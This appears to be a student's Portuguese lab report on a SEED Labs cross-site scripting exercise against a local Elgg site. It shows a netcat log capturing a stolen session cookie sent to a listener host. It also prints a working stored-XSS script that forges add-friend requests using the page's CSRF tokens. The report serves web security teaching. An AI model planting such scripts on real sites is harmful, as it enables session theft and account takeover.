








# Trabalho realizado na Semana #10

## **Seed Labs**

## Tarefa 1

Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert.




## Tarefa 2


Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert com as suas cookies.

.png)



## Tarefa 3


Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil envie as suas cookies para o endereço à nossa escolha.
.png)

```

[01/04/22]seed@VM:~/.../Labsetup$ nc -lknv 10.9.0.1 5555
Listening on 10.9.0.1 5555
Connection received on 10.0.2.4 57828
GET /?c=Elgg%3Dpu2btvuk5tn4qja8rmlpu2n7es HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: image/avif,image/webp,*/*
Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/

```


## Tarefa 4

Quando alguém adiciona o Sammy aos amigos é gerado o seguinte request URL:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ
```

Pelo que o nosso objetivo será gerar esse mesmo request sempre que alguém entrar no perfil de Samy. Conseguimos isso utilizando o seguinte script que é colocado em "About Me" em modo texto:

```js
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

Quando um utilizador visita o perfil de Samy, é gerado o request para adicioná-lo aos amigos. O botão "Add friend" continua a aparecer, mas ao dar refresh este muda para "Remove friend", como esperado.







Utilizando o HTTP Header Live podemos confirmar que o request está a ser gerado quando um utilizador entra no perfil de Samy, como pretendido.

